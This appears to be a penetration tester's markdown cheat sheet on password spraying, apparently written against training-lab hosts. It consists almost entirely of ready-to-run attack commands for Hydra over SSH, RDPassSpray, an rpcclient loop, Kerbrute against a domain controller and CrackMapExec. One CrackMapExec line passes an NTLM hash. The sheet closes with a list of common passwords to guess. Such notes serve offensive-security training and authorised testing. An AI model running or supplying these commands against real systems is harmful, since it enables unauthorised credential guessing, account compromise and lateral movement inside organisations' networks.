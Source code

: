 # Password Spraying

## Hydra
```
hydra -L usernames.txt -p Sprint2022 ssh://10.10.10.10
```

## RDPassSpray for RDP
[RDPassSpray Github](https://github.com/xFreed0m/RDPassSpray)

```
python3 RDPassSpray.py -u victim -p Spring2021! -t 10.100.10.240:3026
```

## RPCClient
```
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

## Kerbrute
Had issues with /etc/krb5.conf; might need to modify
Make sure your valid_users list is the proper format (fname,last_name, etc)

[Linux Kerberos Auth Against Windows](https://michlstechblog.info/blog/linux-kerberos-authentification-against-windows-active-directory/#more-1628)

```
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1
```

## Crackmapexec
Make sure your valid_users list is the proper format (fname,last_name, etc)

```
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 |grep +
sudo crackmapexec smb 172.16.5.0/23 -u administrator -H '88ad09182de639ccc6579eb0849751cf' --local-auth
```


## SprayingToolkit
[SprayingToolkit Github](https://github.com/byt3bl33d3r/SprayingToolkit)

## MailSniper
[MailSniper Github](https://github.com/dafthack/MailSniper)

## Possible Passwords for Guessing
```
password
Password1
Passw0rd
Welcome1
AutumnYY
SpringYY
SummerYY
WinterYY
```